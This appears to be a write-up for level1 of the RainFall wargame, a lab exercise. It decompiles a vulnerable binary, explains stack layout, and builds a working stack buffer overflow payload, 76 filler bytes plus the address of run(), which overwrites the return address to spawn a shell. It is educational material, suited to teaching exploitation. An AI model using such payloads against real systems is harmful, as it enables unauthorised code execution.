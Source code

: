 # Level1

## Analysis

Another executable, [level1](./level1).

When we execute it, it will open a prompt where we can type stuff:

```bash
level1@RainFall:~$ ./level1
asddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddd
Segmentation fault (core dumped)
level1@RainFall:~$ ./level1

level1@RainFall:~$ ./level1
asdasdalsd
level1@RainFall:~$
```

First thing we notice is that it segfaults when typing too much characters.

Precisely after 76 characters as shown next:

```bash
~/Documents/42/rainfall/level1/resources (main) » python -c 'print "a"*76' | ./level1                                                                                                                                                                                                                                                         ckurt@z1r6p3
[1]    145781 done                              python -c 'print "a"*76' | 
       145782 segmentation fault (core dumped)  ./level1
```

We also decompiled the program [here](./level1_decomp.c) and noticed several things:

- The main is mostly empty

```c
int32_t main(int32_t argc, char** argv, char** envp)
{
    void buf;
    return gets(&buf);
}
```
But it returns the result of `gets()`.

- There is also another function outside of the main:

```c
int32_t run()
{
    fwrite("Good... Wait what?\n", 1, 0x13, stdout);
    return system("/bin/sh");
}
```

## Exploit

So if we take a look at an `objdump` of [level1](./level1), we get the output you can find at [level1_dump](./level1_dump).

The part we must take a look at is the address of `run()` which will spawn us a shell.

```
08048444 <run>:
 8048444:	55                   	push   %ebp
 8048445:	89 e5                	mov    %esp,%ebp
 8048447:	83 ec 18             	sub    $0x18,%esp
 804844a:	a1 c0 97 04 08       	mov    0x80497c0,%eax
 804844f:	89 c2                	mov    %eax,%edx
 8048451:	b8 70 85 04 08       	mov    $0x8048570,%eax
 8048456:	89 54 24 0c          	mov    %edx,0xc(%esp)
 804845a:	c7 44 24 08 13 00 00 	movl   $0x13,0x8(%esp)
 8048461:	00 
 8048462:	c7 44 24 04 01 00 00 	movl   $0x1,0x4(%esp)
 8048469:	00 
 804846a:	89 04 24             	mov    %eax,(%esp)
 804846d:	e8 de fe ff ff       	call   8048350 <fwrite@plt>
 8048472:	c7 04 24 84 85 04 08 	movl   $0x8048584,(%esp)
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave  
 804847f:	c3                   	ret    
```

Now that we have this wonderful address `08048444`, we will deep into how we can jump there!

Earlier, we used Python to print a precise number of characters, which was the size of the buffer in which the program stores our input. And it's 76 chars long.

Now the other thing which we will have to explain is how the stack is organized:

## Stack explained

When running a program, the system will allocate space for its needs in a specific order:
```
|------|
|kernel|
|------|
|stack |
|------|
|   I  |
|   V  |
|      |
|   ^  |
|   I  |
|------|
| heap |
|------|
| data |
|------|
| text |
|------|
```

- Kernel: it's where the command line parameters are stored
- Stack: holds local variables for each functions, when a new function is called, the arguments are pushed downward
- Heap: where allocated data is stored, huge data such as files etc.
- Data: where uninitialized and inizialized data are stored
- Text: read only area where the actual code is stored

Now, when a function is called, such as `gets()`, arguments are pushed onto the stack but so are the return address (where the pointer should return when the function is done) and the base pointer.

And then there is our buffer, which is pushed at the end.

Now, if we fill our buffer, which is on the stack, to the brim and over, we will overflow on the return address! Why? Because when a function is called, it will push the function itself on the stack, then the parameters, then the return address and finally the base pointer to look something like this:

<-- Low address memories |
High memory address -->

```
|---------|-------------------------------|-----|---------|--------|---|
|         |                               |     |         |        |   |
|   stack |  Buffer                       |  bp | return  | params | ft|
|         |                               |     |         |        |   |
|---------|-------------------------------|-----|---------|--------|---|
```

Now that we have this beautiful example, we can see why going higher than the buffer would cause issues...

If we override the return address, the function will end and jump to the end of our payload which replaced the base return address!

If this explication doesn't work for you, here's the [video](https://www.youtube.com/watch?v=1S0aBV-Waeo&ab_channel=Computerphile) that helped me through Dr_quine and this level!

## What's next

Now that we understand how, let's craft our payload!

We can use the same command we used to find our buffer limit earlier, Python our savior today:

`python -c 'print "a"*76' | ./level1`

That will fill the buffer part and the bp part! So the next part will be on the return adress, we can write another address such as another function? And it will return to this function instead of the main, such as `08048444`.

Now we will use python to do so, careful about the endian to write the address!

`python -c 'print "a"*76 + "\x44\x84\x04\x08"' | ./level1`